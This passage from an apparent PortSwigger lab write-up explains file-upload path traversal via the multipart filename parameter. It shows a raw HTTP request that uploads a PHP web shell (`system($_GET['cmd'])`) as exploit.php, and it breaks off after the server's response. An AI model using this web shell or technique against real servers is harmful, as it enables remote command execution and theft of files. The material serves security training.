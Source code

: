 In the `multipart/form-data` content type of HTTP, there is a parameter called `filename` that not only provides the application with the file name but also specifies the location where it should be saved. By adding a directory traversal sequence i.e. `../` to the filename, we can upload the file to a different location where it can be executed.

The thing that should be noted and may create some problems is that when we send requests to a domain name, it typically refers to a reverse proxy server or a load balancer. These servers act as intermediaries and our requests are further processed by additional servers in the background. These backend servers may have different configurations and settings compared to the front-facing servers.

### LAB #3: Web Shell Upload via Path Traversal

Lab URL: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal

**Objective**

Upload a PHP web shell and use it to exfiltrate the contents of the `/home/carlos/secret` file.

**Credentials**
```
wiener:peter
```

**Solution**

We can login to our account and there we have the functionality to upload Avatar images. The Upload Avatar images send the POST request with the Content Type `multipart/form-data`. We can upload files other than image files i.e. PHP, but they will not be executed they just reflect it back to the user.

**Uploading PHP webshell**
```
POST /my-account/avatar HTTP/1.1
Host: 0a41002404649dcf8011bc34002b00b1.web-security-academy.net
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ3eGsByZh5Zyv2B8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Referer: https://0a41002404649dcf8011bc34002b00b1.web-security-academy.net/my-account
Cookie: session=yLPqxXJxdNw7mCszZQ3mGZfesjFQNXpM
Content-Length: 449

------WebKitFormBoundaryJ3eGsByZh5Zyv2B8
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php system($_GET["cmd"]);?>

------WebKitFormBoundaryJ3eGsByZh5Zyv2B8
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryJ3eGsByZh5Zyv2B8
Content-Disposition: form-data; name="csrf"

UnD53tWQGRadk9rN5dzxM2gorXo8TK9h
------WebKitFormBoundaryJ3eGsByZh5Zyv2B8--

...

HTTP/1.1 200 OK
Date: Wed, 07 Jun 2023 09:07:34 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: close
```